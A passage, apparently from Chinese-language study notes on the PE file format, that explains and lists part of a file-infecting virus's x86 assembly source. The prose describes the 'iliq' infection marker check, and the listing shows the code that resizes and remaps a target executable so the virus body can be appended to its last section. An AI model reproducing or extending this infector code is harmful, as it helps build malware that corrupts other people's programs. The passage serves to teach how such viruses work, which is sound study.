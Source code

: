 ------

==以上代码判断打开的文件是否为PE文件，如果是，则继续通过标志位判断是否已经被感染过==；==如果已经被感染过，则不再感染==。==标志位位于PE文件开始的第4个字节处，下面列出了一个被感染的PE文件的头部信息==：

![image](https://github.com/YangLuchao/img_host/raw/master/20231101/image.20joc29gsl8g.jpg)

如上所示，==文件头开始的第4个字节处，存储了`iliq`标志，补丁程序在打补丁前会首先判断此处是否已存在该标志，如果存在则略过不再对PE文件执行打补丁操作，这样可以避免对一个已经打过补丁的PE文件进行重复的多次补丁过程==。

继续往下看，==以下是将病毒代码附加到其他PE文件的部分，附加位置是最后一节==。

------

```assembly
871
872 push dword ptr [esi+3ch] ;保存文件对齐
873 pop ecx ;恢复文件对齐
874
875
876 mov eax,VIR_TOTAL_SIZE
877 mov dword ptr [ebx+dwPatchCodeSize],eax
878
879
880 ;将文件大小按照文件对齐粒度对齐
881 invoke getFileAlign,[ebx+mapAddress]
882 mov dword ptr [ebx+dwFileAlign],eax
883 xchg eax,ecx
884 mov eax,dword ptr [ebx+WFD_nFileSizeLow]
885 invoke _align
886 mov dword ptr [ebx+dwNewFileAlignSize],eax
887
888 ;求最后一节在文件中的偏移
889 invoke getLastSectionStart,[ebx+mapAddress]
890 mov dword ptr [ebx+dwLastSectionStart],eax
891
892 ;求最后一节的大小
893 mov eax,dword ptr [ebx+dwNewFileAlignSize]
894 sub eax,dword ptr [ebx+dwLastSectionStart]
895 add eax,dword ptr [ebx+dwPatchCodeSize]
896 ;将该值按照文件对齐粒度对齐
897 mov ecx,dword ptr [ebx+dwFileAlign]
898 invoke _align
899 mov dword ptr [ebx+dwLastSectionAlignSize],eax
900
901 ;求新文件大小
902 mov eax,dword ptr [ebx+dwLastSectionStart]
903 add eax,dword ptr [ebx+dwLastSectionAlignSize]
904 mov dword ptr [ebx+dwNewFileSize],eax
905
906 ;关闭内存映射
907 pushad
908 push dword ptr [ebx+mapAddress]
909 call [ebx+_UnmapViewOfFile]
910 push dword ptr [ebx+mapHandle]
911 call [ebx+_CloseHandle]
912 popad
913
914
915 ;用新尺寸重新映射文件
916 mov dword ptr [ebx+newSize],eax
917 xchg ecx,eax
918 call createMap
919 or eax,eax
920 jz closeFile
```